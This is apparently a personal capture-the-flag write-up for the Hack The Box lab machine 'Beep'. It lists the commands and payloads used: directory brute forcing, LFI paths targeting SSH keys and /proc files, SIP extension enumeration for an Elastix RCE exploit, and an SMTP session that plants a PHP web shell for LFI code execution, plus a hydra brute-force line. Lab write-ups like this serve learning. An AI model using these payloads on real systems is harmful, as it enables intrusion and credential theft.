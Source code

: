 # Beep Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

* Inspect source code
* Launch gobuster at the same time 

`gobuster dir -u http://10.10.10.7/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -o gobuster.out`
* Download an image and look at the metadata check the date of upload with `exiftool`
* Visit the site as a user :white_check_mark:
* Add a proxy in the exploit to redirect flows to burp

`searchsploit elastix`

# ${{\color{purple}Initial Foothold}}\ $

* First point when he have a security TLS error in firefox like this 
 ![image](https://user-images.githubusercontent.com/123066149/217526766-f4604150-68a0-465c-8ade-30c2f22b9e17.png)

You have to go to the firefox settings and accept the depreciated protocols -> new tab -> about:config -> security.version.enable-deprecated (true)

# ${{\color{purple}Exploitation}}\ $

LFI tips: 
- /var/lib/<username>/.ssh/id_rsa%00
- /proc/self/status%00 (look at the uid of the user and look at the user who runs the application in `/etc/passwd`)
- check /proc/self/about%00 (check the possible user agent `<?php echo "hello"; ?>`)
- use the burp suite intruder to see if there are any other accessible files
 
SIP tips: 
- if I am in front of a SIP phone I can use `svmap`
 `svmap 10.10.10.7`
 
 ![image](https://user-images.githubusercontent.com/123066149/217537969-6856e779-ba5b-4d18-a566-b5ba7f5af690.png)

 In Elastix 2.2.0 there is a Remote Code Execution and to see how to use it you need to know the extension of the SIP equipment (FreePBX) to find this extension I will use: `svwar`
 
 ![image](https://user-images.githubusercontent.com/123066149/217540202-42ce2dd2-ba52-4b65-9b84-2da904660721.png)

 After that you just have to change the extension value in the exploit :
 
 https://www.exploit-db.com/exploits/18650
 
 ![image](https://user-images.githubusercontent.com/123066149/217540838-b34ce047-8189-477e-bfad-de9ecba90923.png)

 
# ${{\color{purple}Privilege Escalation}}\ $

![image](https://user-images.githubusercontent.com/123066149/217532253-26283ba3-dd22-439b-bfbc-8ddf4a65e467.png)
  
`telnet 10.10.10.7 25` 
  
  ### or
  
`nc -nvv 10.10.10.7 25`
  
``EHLO test.beep.htb``
  
``VRFY asterisk@localhost``
  
``mail from:pwned@haha.io``
  
``rcpt to:asterisk@localhost``
  
``data``
  
``Subject: You got owned``
  
``<?php echo system($REQUEST['id']); ?>``
  
``blanck line``
  
``.``
  
![beep2](https://user-images.githubusercontent.com/123066149/217533503-0b8ad502-2a6b-4d82-ba0b-65842e428c39.PNG)

 use burp to try a code execution : `/var/mail/user%00`
  
# ${{\color{purple}Points of Improvement}}\ $

* Improve my directory brute force
* Use `curl -k (https://) -o xxx.png` use -k for allow insecure server connections
* Use `exiftool` for .png
* Use `ctrl + U` to improve a display
* Use vi `:g/nologin/d` to clean up the output of the `/etc/passwd` file
* When i found a `password` and `user` don't hesitate to directly do a bruteforce

`ssh hydra -L users -P pw ssh://IP`
* Use the smart decode function of burp
